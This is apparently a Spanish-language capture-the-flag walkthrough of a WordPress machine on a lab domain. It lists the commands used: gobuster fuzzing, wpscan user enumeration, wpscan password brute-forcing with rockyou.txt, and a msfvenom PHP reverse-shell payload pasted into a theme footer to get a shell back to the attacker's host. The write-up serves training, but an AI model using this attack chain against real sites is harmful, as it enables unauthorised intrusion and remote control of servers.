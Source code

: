 Entornos wordpress --> Diferentes configuraciones que puede tener para desarrollar, probar y poner en funcionamiento tu sitio web.


- Tenemos una maquina con el puerto 80 abierto, vamos a usar fuzzing utilizando la herramienta ==gobuster==
![[Pasted image 20250107201932.png]]
- Tenemos wordpress, vamos a investigar
![[Pasted image 20250107202029.png]]
- Vemos que lo carga incompleto.
	- Esto pasa porque hace falta que la IP de la maquina victima este apuntando al dominio de wordpress. Hay que editar el fichero /etc/hosts.
	- Pero que dominio vamos a utilizar?
![[Pasted image 20250107202212.png]]
- Se repite mucho el directorio internal.thm, vamos a ingresarlo.
![[Pasted image 20250107202431.png]]
![[Pasted image 20250107202452.png]]
- Ya estamos dentro de la pagina.
- Cuando estamos en wordpress, podemos poder hacer un fuzzing a la pagina para encontrar un login web.
![[Pasted image 20250107203016.png]]
- Podemos entrar al login web.
![[Pasted image 20250107203106.png]]
- Aquí debemos usar ==wpscan==
- WPSCAN --> Escanear y auditar la seguridad de sitios web basados en Wordpress.
- Usamos el siguiente comando:
```
wpscan --url (IP_VICTIMA_DIRECTORIO) --enumerate u,vp
```
![[Pasted image 20250107205024.png]]
- Nos dio un usuario, por lo tanto podemos hacer fuerza bruta con ==wpscan==.
```
wpscan --url (IP_VICTIMA_DDIRECTORIO) --passwords /usr/share/wordlists/rockyou.txt --usernames admin
```
- Ya tenemos contraseña:
l
![[Pasted image 20250107210613.png]]
- Ahora nuestro objetivo es inyectar un código malicioso en .php
- En este caso no podemos subir archivos, pero si podemos editar.
![[Pasted image 20250107210731.png]]
- Nos vamos a Appearance > Theme Editor y nos saldra un word edition.
![[Pasted image 20250107210845.png]]
- En este word edition vamos a agregar un código malicioso.
- Pero antes, a la derecha sale un listado de files, vamos a seleccionar ==Theme Footer==
![[Pasted image 20250107211018.png]]
- Eliminamos todo el código que ahí aparece.
	- Tenemos que poner el payload en msfvenom.
- Para este payload lo vamos a crear en msfvenom con el siguiente comando:
```
msfvenom -p php/reverse_php LHOST=(IP_MAQUINA_ATACANTE) LPORT=(PUERTO) -f raw > pwned.php
```
![[Pasted image 20250107211413.png]]
- Hacemos un cat en el payload y eso lo ponemos en la pagina.
![[Pasted image 20250107211623.png]]
- le damos a update file, tenemos a nuestra maquina a escucha y volvemos a la pagina IP/blog, ya tenemos conexión.